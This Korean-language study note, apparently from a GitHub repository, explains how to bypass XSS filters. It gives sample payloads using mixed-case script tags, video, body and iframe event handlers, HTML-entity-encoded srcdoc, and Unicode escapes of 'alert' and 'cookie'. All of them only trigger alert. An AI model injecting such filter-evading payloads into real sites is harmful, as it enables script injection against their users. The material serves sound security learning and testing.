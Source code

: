 <br>


# #4. 태그와 속성 기반 필터링

---

### 대소문자 인식 필터
대소문자를 모두 검사하지 않을 경우 다음과 같이 우회 가능하다.
```html
<sCript>alert(1)</scRIPT>
```

<br>

### 특정 태그 및 속성 필터
`script`, `img`, `input`과 같은 태그를 필터링 할 때, 다른 태그를 사용해 공격을 시도할 수 있다.
```html
<video><source onerror="alert(1)"/></video>
<body onload="alert(1)"/>
```

<br>

`on` 이벤트 핸들러를 필터링하고, 멀티 라인을 지원하는 문자를 검사할 때, 새로운 inner frame을 생성하는 `iframe` 태그를 이용해 우회할 수 있다.
```html
<!-- src 속성에서 활성 하이퍼링크 이용 -->
<iframe src="javascript:alert(1)">
  
<!-- srcdoc 속성을 이용 -->
<iframe srcdoc="<&#x69;mg src=1 &#x6f;nerror=alert(parent.document.domain)>">
```
위에서 `srcdoc` 속성을 이용하여 inner frame 내에 새로운 XSS 공격 코드를 입력할 수 있는데 이때, HTML 속성 내에 들어가기에 HTML Entity Encoding으로 기존 필터링을 우회하는 것이 가능하다.
`parent.alert`를 호출하는 이유는 스크립트가 호출되는 영역의 상위 문서에 존재하는 alert를 호출 해야하기 때문이다.

<br>


# #5. 자바스크립트 함수 및 키워드 필터링

---

### Unicode escape sequence
자바스크립트는 **Unicode escape sequence**를 지원한다. 이를 이용하여 필터링 된 문자열을 우회하는 것이 가능하다.
(Unicode escape sequence는 `\uAC00` == `가`와 같이 문자열에서 유니코드 문자를 코드포인트로 나타낼 수 있는 표기법)

```javascript
"\u0063ookie" // cookie
"cooki\x65"   // cookie
\u0061lert(1) // alert(1)
```

<br>
